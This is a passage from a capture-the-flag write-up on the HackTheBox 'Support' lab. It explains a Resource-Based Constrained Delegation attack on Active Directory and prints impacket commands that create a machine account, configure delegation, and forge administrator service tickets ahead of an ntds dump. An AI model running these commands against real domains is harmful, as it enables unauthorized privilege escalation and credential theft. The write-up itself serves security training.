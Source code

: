 The _Linux Abuse_ section (Figure 12) suggests to leverage RBCD[^4], so let's do that by slightly modifying the commands shown by BloodHound. The [prerequisites](../../tl-dr/active-directory/attacks/delegation/resource-based.md#prerequisites) for this exploitation are:

1. Having a domain account with `WRITE` permissions over the target SPN account, so we can modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. -> We have [`GenericAll`](../../tl-dr/active-directory/permissions/genericall.md) over the domain, so we are good to go.
2. Permissions to create a SPN[^8] account (`MachineAccountQuota`) -> The default number is `10`, so if that is not changed to `0`, we also meet this requirement.

The attack process is the following:

1. Create a SPN, i.e., machine, account.
2. Set its `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, so it can be trusted from the KDC[^9]. This will allows us to impersonate any user.
3. Use the machine account to:
   1. Request a ST[^10] for itself with `S4U2Self` as `administrator`.
   2. Use the generated ST to invoke `S4U2Proxy` and get a second ST for the target `cifs` service as the `administrator`.
4. Use the second ST to dump the `ntds` database, which contains the `administrator`'s hash.

Let's first go through the first 3 steps: creating the computer account, configuring RBCD, and generating the two ST[^10]s as `administrator` (Figure 13).

{% code overflow="wrap" %}
```bash
# adding a machine account 
impacket-addcomputer -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host 'DC.SUPPORT.HTB' 'support.htb/support:Ironside47pleasure40Watchful' -k
# configuring RBCD
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful' -k -dc-ip 10.10.11.174
# generating the two Service Tickets as administrator
sudo impacket-getST -spn 'cifs/dc.support.htb' -impersonate 'administrator' 'support.htb/attackersystem$:Summer2018!'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/support_rbcd.png" alt=""><figcaption><p>Figure 13: Creating a machine account, configuring RBCD, and impersonating the <code>administrator</code> account.</p></figcaption></figure>


[^1]: Server Message Block
[^2]: Resource-Based Contrained Delegation
[^3]: Elevation of Privileges
[^4]: Resource-Based Constrained Delegation
[^5]: Domain Controller
[^6]: Fully Qualified Domain Name
[^7]: Lightweight Directory Access Protocol
[^8]: Service Principal Name
[^9]: Key Distribution Center
[^10]: Service Ticket